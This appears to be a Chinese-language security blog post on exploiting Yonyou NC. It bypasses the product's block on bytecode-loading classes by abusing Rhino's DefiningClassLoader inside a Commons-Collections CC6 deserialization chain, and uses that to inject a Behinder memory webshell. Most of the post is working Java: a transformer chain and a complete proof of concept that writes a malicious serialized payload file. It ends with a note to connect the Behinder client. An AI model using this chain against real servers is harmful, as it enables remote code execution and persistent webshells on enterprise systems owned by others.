

在用友NC中默认ban了templateImpl和bcel等加载字节码的类，即使是反序列化执行了命令，没有办法加载恶意类仍然是没有办法注入内存马的

用Java-memshell-generator生成一个冰蝎的内存马


这个生成的类，只要能调用static代码块即可注入


在用友的js-14.jar包中，存在DefiningClassLoader类，可以通过defineclass加载类


而对于用友NC，存在正常的CC链


在InvokerTransformer中可以通过反射构造Runtime.getRuntime().exec()，那么也可以构造

```
DefiningClassLoader.class.getDeclaredConstructor().newInstance(new Object[0]).defineClass("恶意类全限定名",恶意类byte[]).getMethod("main").invoke(null);
```

调用恶意类中的方法，因为是defineclass加载的，不会去初始化类，需要我们去调用constructor，即

```java
final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(DefiningClassLoader.class),
                new InvokerTransformer("getDeclaredConstructor", new Class[]{Class[].class}, new Object[]{new Class[0]}),
                new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new Object[0]}),
                new InvokerTransformer("defineClass", new Class[]{String.class, byte[].class}, new Object[]{"aaa", bs}),
                new InvokerTransformer("getDeclaredConstructor", new Class[]{Class[].class}, new Object[]{new Class[0]}),
                new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new Object[0]}),
//                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"main", new Class[]{String[].class}}),
//                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[]{null}}),
        };
```

这样来触发恶意类的静态代码块

poc：

```java
package com.osword.defineclass;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.mozilla.javascript.DefiningClassLoader;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class YonyouTest {
    public static void main(String[] args) throws Exception {
        FileInputStream fis = new FileInputStream("/Users/DawnT0wn/IdeaProjects/JavaSec/src/main/java/com/osword/defineclass/aaa.class");
        ByteArrayOutputStream bos = new ByteArrayOutputStream(10000);
        byte[] b = new byte[1000];
        int n;
        while ((n = fis.read(b)) != -1) {
            bos.write(b, 0, n);
        }
        fis.close();
        byte[] data = bos.toByteArray();
        CC6(data);
    }

    public static void CC6(byte[] bs) throws Exception{
        Transformer[] faketransformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"curl 111"})
        };

        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(DefiningClassLoader.class),
                new InvokerTransformer("getDeclaredConstructor", new Class[]{Class[].class}, new Object[]{new Class[0]}),
                new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new Object[0]}),
                new InvokerTransformer("defineClass", new Class[]{String.class, byte[].class}, new Object[]{"aaa", bs}),
                new InvokerTransformer("getDeclaredConstructor", new Class[]{Class[].class}, new Object[]{new Class[0]}),
                new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new Object[0]}),
//                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"main", new Class[]{String[].class}}),
//                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[]{null}}),
        };

        ChainedTransformer chain = new ChainedTransformer(faketransformers);

        Map innermap = new HashMap();
        Map outmap = LazyMap.decorate(innermap,chain);

        TiedMapEntry tiedMap = new TiedMapEntry(outmap,123);
        HashSet hashset =  new HashSet();
        hashset.add(tiedMap);
        outmap.remove(123);

        setFieldValue(chain,"iTransformers",transformers);

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("NC.bin"));
        objectOutputStream.writeObject(hashset);
    }


    public static void setFieldValue(Object obj,String filedName,Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(filedName);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```

连接behinder（记得加上请求头）




参考链接：

https://lfysec.top/2021/09/10/%E7%94%A8%E5%8F%8BNC%E6%8C%96%E6%8E%98%E7%AC%94%E8%AE%B0/

https://zhzhdoai.github.io/2020/09/17/%E6%9F%90NC-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9B%9E%E6%98%BE%E6%9E%84%E9%80%A0/